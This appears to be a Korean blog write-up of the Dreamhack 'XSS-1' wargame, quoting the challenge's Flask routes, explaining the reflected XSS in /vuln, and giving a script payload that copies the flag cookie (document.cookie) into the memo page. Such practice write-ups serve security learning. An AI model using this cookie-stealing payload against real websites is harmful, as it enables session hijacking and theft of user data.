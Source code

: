 ```yaml
---
layout: post
title: Dreamhack | XSS-1
subtitle: Dreamhack XSS-1 
categories: Web
tags: [Pentest, Web]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://dreamhack.io/wargame/challenges/">dreamhack.io</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/207234522-3e3cd64b-edf7-4266-ae7b-9e7746d6d79d.png" width = 400> 
</p>

해당 문제는 드림핵 Cross Site Script 로드맵에 등장하는 첫번째 문제이다.

접속 정보와 해당 서버를 구성하는 `app.py` 파일이 존재한다.

XSS 취약점을 이용해서 flag를 가져와야한다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/207234918-9582ecd3-1cc7-4992-9078-b1fc94c27fa5.png" width = 180> 
</p>

접속했을 때 위 처럼 3개의 링크가 존재하는 것을 알 수 있다.

## 문제 풀이

* **vuln(xss)page** : 해당 링크를 접속하면 `1` 이라는 Alert가 뜨는데 해당 URL을 보면 `http://host3.dreamhack.games:17344/vuln?param=%3Cscript%3Ealert(1)%3C/script%3E`로 되어 있다. 

* **memo** : 접속 시 **hello**라는 문구가 있다. 재접속을 할 때 마다 한 줄씩 늘어나게 된다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/207235285-1fd71c10-57c3-4872-8603-522c7d321b86.png" width = 160> 
</p>

`app.py`를 보고 어떤 식인지 확인해보겠습니다.

```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param
```

vuln page로 사용자가 입력한 값을 인자로 가져온다. 결국 param의 값은 `<scrpit>alert(1)</scrpit>`였다는 것을 알 수 있고, URL을 보면 해당 parameter가 있다.

즉, 해당 부분에서는 XSS 취약점이 발생한다는 것을 알 수 있따.

```python
@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo = memo_text)
```

memo 페이지는 사용자가 입력한 `memo` 입력 값을 `memo_text += text + "\n"`로 추가하여 **memo.html**을 통해 우리의 입력 값을 보여준다.

```python
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'
```

`GET` 메소드 이용 시 **flag.html**를 제공하며, `POST` 메소드 이용시 `check_xss`의 함수를 거치는 것을 알 수 있다.

```python
if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):

def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
```

check_xss의 인자로는 `param`과 `cookie`인데 cookie를 보면 해당 이름은 **flag**, 그에 대한 값은 **FLAG.strip()** FLAG의 시작과 끝의 공백을 제거하여 값을 전달한다.

해당 url 접속 시 cookie에 해당 **FLAG**가 포함되는 것을 알 수 있다.

> memo를 통해 입력 값을 기록할 수 있고, check_xss를 통해 cookie의 포함된 flag를 알 수 있다.

```
<script>location.href = "/memo?memo = " + document.cookie;</script>
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/207242306-5147e934-f55e-4f77-88b7-cd38b0722f16.png" width = 370> 
</p>

해당 페이로드를 전송하고 다시 **memo**로 들어가면 FLAG가 입력되어 있는 것을 알 수 있다.